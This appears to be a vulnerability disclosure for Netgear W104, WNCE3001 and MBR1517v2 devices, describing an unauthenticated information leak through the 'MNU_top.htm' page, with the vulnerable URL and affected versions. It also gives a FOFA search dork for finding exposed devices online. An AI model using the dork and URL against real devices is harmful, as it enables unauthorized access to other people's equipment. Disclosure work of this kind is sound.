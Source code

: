 # Netgear W104 Bridge Repeater Unauthorized Access Vulnerability 2

### 0x01 Vulnerability description

A vulnerability is in the 'MNU_top.htm' page of the Netgear W104, version WAC104-V1.0.4.13, which can allow a remote attacker to access this page without any authentication. When processed, it exposes some key information for the device.

```
http://192.168.1.53/MNU_top.htm
```

### 0x02 Affected version

```
W104 =< V1.0.4.13
WNCE3001 (All versions are affected)
MBR1517v2 (All versions are affected)
```

### 0x03 PoC verification
The corresponding target version can be found using the dork syntax of fofa.

```
title=="NETGEAR Router MBR1517v2"
```

![-w1265](img/16194918309234.png)

The information leaked varies from device to device, for example, MBR1517v2 leaks more information about the state of the device.

![截屏2021-04-29 上午11.32.20](img/%E6%88%AA%E5%B1%8F2021-04-29%20%E4%B8%8A%E5%8D%8811.32.20.png)


### 0x05 Acknowledgement

En-Ze Wang

Yi-Fei Gao

Zhen-Hua Wang

Wei Xie